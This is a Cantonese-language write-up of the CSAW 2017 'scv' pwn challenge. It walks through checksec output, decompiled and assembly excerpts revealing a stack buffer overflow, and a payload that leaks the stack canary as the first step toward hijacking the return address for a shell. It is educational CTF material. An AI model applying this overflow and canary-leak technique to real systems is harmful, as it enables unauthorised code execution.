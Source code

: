 # CSAW 2017 pwn 100 scv

# 題目:


>                                         SCV
>            SCV is too hungry to mine the minerals. Can you give him some food?
>                                 nc pwn.chal.csaw.io 3764

>[scv](scv)

>[ibc-2.23.so](ibc-2.23.so)


呢題有少少煩,不過唔難

Checksec:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
IO dump:

```
-------------------------
[*]SCV GOOD TO GO,SIR....
-------------------------
1.FEED SCV....
2.REVIEW THE FOOD....
3.MINE MINERALS....
-------------------------
>>

```

有3個function:

1.入buffer

2.print buffer

3.exit


Ida code (由於好多廢話,所以淨係留重點)

```C++
                .
                .
 char buf; // [sp+10h] [bp-B0h]@6
                .
                .

   v23 = read(0, &buf, 248uLL);             .

```

有用嘅其實只有一/兩句,其他都係廢話

呢兩句identify 左有buffer overflow, buffer只有176 byte,但係可以讀248,仲唔死

asm code:

```asm
.text:0000000000400A96 buf             = byte ptr -0B0h
.text:0000000000400A96 var_8           = qword ptr -8
.text:0000000000400A96
.text:0000000000400A96                 push    rbp
.text:0000000000400A97                 mov     rbp, rsp
.text:0000000000400A9A                 sub     rsp, 0C0h
.text:0000000000400AA1                 mov     rax, fs:28h
.text:0000000000400AAA                 mov     [rbp+var_8], rax
.text:0000000000400AAE                 xor     eax, eax
.text:0000000000400AB0                 mov     rax, cs:stdout

```

我地知道canary 係rbp-8, 只要leak到canary,就可以任意寫return address, get shell

經過少少測試之後,會發現print buffer function會print多左8個位 or until \x00

我地知道嘅尾數係\x00, 所以我地只要寫到尾數做其他野就leak到canary

leak canary payload= payload='b'*167+'a'+'g'

只要將leak到嘅canary減0x67,就等於canary number




